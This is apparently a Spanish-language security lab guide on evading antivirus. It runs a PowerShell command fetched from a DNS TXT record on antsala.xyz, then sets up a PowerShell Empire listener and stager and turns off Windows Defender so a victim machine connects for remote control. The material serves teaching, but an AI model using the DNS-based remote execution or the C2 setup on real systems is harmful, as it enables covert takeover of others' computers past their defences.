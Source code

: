 # Ocultar IEX para evadir al antivirus
 

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Win 11***.

TODO. introducción

## Ejercicio 1: Hacer prueba de concepto con registro TXT.

Debemos sacar del dominio a la máquina ***Win 11***. Para ello, vamos a **Settings***, ***Accounts***, ***Access work or school*** y desconectamos al equipo del dominio.

Reiniciamos y volvemos aquí.

Debemos asegurar que el servidor DNS está correctamente configurado, tal y como aclara la imagen.

![8.8.8.8 Server](../img/lab-50-C/202209142058.png)

Para saltar la detección del antivirus, la instrucción ***IEX*** no debe aparecer en el payload. Para ello hacemos una prueba de concepto por medio de un registro ***TXT*** del ***DNS***.

La siguiente imagen muestra un registro TXT, llamado ***prueba***, que contiene un texto genérico en el servidor que lleva la zona ***antsala.xyz***.

![prueba TXT](../img/lab-50-C/202209142115.png)

Abrimos una terminal de ***Powershell***, y en ella escribimos.
```
nslookup -q=txt pruebadeconcepto.antsala.xyz
```

y obtenemos lo siguiente.
Nota: Solo nos interesa la última línea de la salida del comando.

![última línea](../img/lab-50-C/202209142117.png)

Estudia la siguiente imagen. Usando ***[]*** podemos elegir la línea que nos interesa de la salida, que es la última.
Nota: ***Non-authoritative answer*** for forma parte de la salida.

![Selección línea](../img/lab-50-C/202209142122.png)

Ahora nos fijamos en el siguiente registro TXT.

![Seleccionar varias líneas](../img/lab-50-C/202209142124.png)

Observa qué ocurre cuando hacemos la consulta.
```
(nslookup -q=txt ejecutaesto.antsala.xyz)[-1]
```

En la salida podemos observar que hemos "extraído" un ***comando***.

![extracción comando](../img/lab-50-C/202209142127.png)

Vamos a ver si podemos ejecutarlo.
```
& powershell . (nslookup -q=txt ejecutaesto.antsala.xyz)[-1]
```

***Notepad*** se abre. ¿Mágico verdad? Hemos conseguido ejecutar el comando que se almacena en un registro TXT de la zona DNS.

## Ejercicio 2: Actualizar PowerShell Empire.

En la máquina ***Kali*** abrimos una terminal y ejecutamos el siguiente comando para actualizar ***PowerShell Empire***.
```
sudo apt install powershell-empire
```

Cuando haya terminado la actualización iniciamos el servidor de ***PowerShell Empire***.
```
sudo powershell-empire server
```

El servidor se inicia, como podemos ver en la siguiente imagen.

![Server iniciado](../img/lab-50-C/202209150921.png)

Es es momento de iniciar el ***Cliente*** de ***PowerShell Empire***. En una nueva terminal, escribimos.
```
powershell-empire client
```

Ya tenemos el cliente iniciado.

![Cliente iniciado](../img/lab-50-C/202209150925.png)


## Ejercicio 3: Crear un Listener y un Stager

Vamos a crear un ***listener*** que estará a la espera de las conexiones de la víctima, que en ***PowerShell Empire*** recibe el nombre de ***agente***.
```
uselistener http
```

Aparecerá la configuración del listener, Como podrás ver, hay campos obligatorios (***required***), otros que no lo son. También se presentas campos con valores por defecto.

![Opciones del listener](../img/lab-50-C/202209150937.png)

Si revisamos la configuración, no tenemos valor para el parámetro ***Port***, que es el puerto al que conectará el ***agente*** cuando éste se inicie en la víctima. Ponemos el valor 9876.
```
set Port 9876
```

![Puerto configurado](../img/lab-50-C/202209150942.png)

Iniciamos el listener.
```
execute
```

El listener debe haberse iniciado.

![Listener iniciado](../img/lab-50-C/202209150944.png)

Vamos a usar un ***stager***, que como ya sabemos es el pequeño programa que realmente descargará en verdadero contenido malicioso en la víctima.

Tenemos una gran cantidad de ***stagers*** a nuestra disposición.

![stagers](../img/lab-50-C/202209150949.png)

Elegimos ***multi/launcher***.
```
usestager multi/launcher
```

Al seleccionar un ***stager*** aparecen sus opciones. Como puede observarse, el lenguaje en el que se generará es ***PowerShell***, sin embargo el campo ***Listener*** está vacío. Este campo se utiliza para indicar al ***Stager*** qué tipo de ***Listener*** se va a usar.

![Opciones del stager](../img/lab-50-C/202209150952.png)

Ponemos el tipo ***Listener***.
```
set Listener http
```

Ejecutamos para que se genere el ***Stager***.
```
execute
```

Como podemos observar en la siguiente imagen, se ha generado en ***PowerShell*** el código de nuestro ***Stager***.
Nota: Observa en la última línea que aparece un mensaje indicando que se ha copiado al portapapeles. Esto es útil porque generalmente desearemos guardar el ***Stager*** en un archivo.

![Código del Stager](../img/lab-50-C/202209151007.png)

Procedemos a probar el ***Stager*** (que ahora mismo está copiado en el portapapeles). En la máquina ***Win 11***, en la terminal de ***PowerShell***, ***pegamos*** el portapapeles. En la imagen puedes ver el resultado.

![Stager en la víctima](../img/lab-50-C/202209151014.png)

Solo queda pulsar ***Enter*** para simular la ejecucion del ***Stager*** en la víctima.

Como puedes ver, el antivirus ha hecho un buen trabajo detectando al ***Stager*** como malware.

![Malware detectado](../img/lab-50-C/202209151016.png)


Procecemos a desactivar el antivirus temporalmente para demostrar que el ***Stager*** puede contectarse correctamente al ***Listener***.

En la máquina ***Win 11*** vamos a ***Windows Security*** / ***Virus & threat protection settings*** y hacemos clic en ***Manage settings***.

Desactivamos la protección en tiempo real, como se puede apreciar en la imagen.

![Real time protecction off](../img/lab-50-C/202209151021.png)

Volvemos a pa ventana de ***PowerShell***, pulsamos la ***flecha de cursor arriba*** para recuperar el último comando y pulsamos ***Enter*** para volver a ejecutar el ***Stager***.

En la máquina ***Kali*** podemos observar cómo se ha registrado un nuevo agente en el ***Listener***, y cómo se ha procedido a descargar en el agente el ***payload*** que permitirá controlarlo desde ***PowerShell Empire***.

![Nuevo agente](../img/lab-50-C/202209151021.png)

En la máquina de ***Kali***, escribimos el siguiente comando en la consola de ***PowerShell Empire*** (cliente).
```
agents
```

Podemos visualizar información sobre el ***agente*** que se ha conectado a ***PowerShell Empire***.

![agente](../img/lab-50-C/202209151032.png)

Para interactuar con un agente, escribimos lo siguiente.
Nota: Cambia <Nombre_Agente> por el valor actual de ese agente.
```
interact <Nombre_Agente>
```

Las acciones que se pueden realizar contra la víctima son las que muestra la salida del comando.***help***.
```
help
```

y que podemos ver en esta captura.

![help interact](../img/lab-50-C/202209151040.png)











